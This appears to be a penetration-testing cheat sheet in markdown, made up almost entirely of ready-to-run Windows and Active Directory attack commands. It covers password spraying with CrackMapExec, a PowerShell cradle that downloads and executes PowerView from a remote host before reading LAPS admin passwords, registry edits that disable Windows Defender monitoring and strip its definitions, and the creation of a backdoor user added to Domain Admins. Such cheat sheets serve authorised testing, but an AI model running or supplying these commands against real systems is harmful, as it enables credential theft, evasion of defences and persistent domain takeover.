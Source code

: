 <br>

## Password Spraying
```
cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18
cme smb 192.168.1.101 -u user1 -p password1 password2 password3
```

<br>

## APPLOCKER ENUMERATION
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```

<br>

## LAPS
```
iex(New-Object Net.WebClient).DownloadString('http://IP/PowerView.ps1') 
Get-ADObject -Name MachineName -DomainController IP -Properties ms-mcs-admpwd 
```

<br>

# Windows

<br>

## RollBack Defender
```
 “C:\Program Files\Windows Defender\MpCmdRun.exe” -removedefinitions -all
 
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring " /t REG_DWORD /d 1 /f

REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableBehaviorMonitoring " /t REG_DWORD /d 1 /f

```

<br>
<br>

## Create and Add user to DA group
```
net user John Password123! /add /domain 
net localgroup "Remote Desktop Users" John /add /domain 
net group "domain admins" John /add /domain 
```
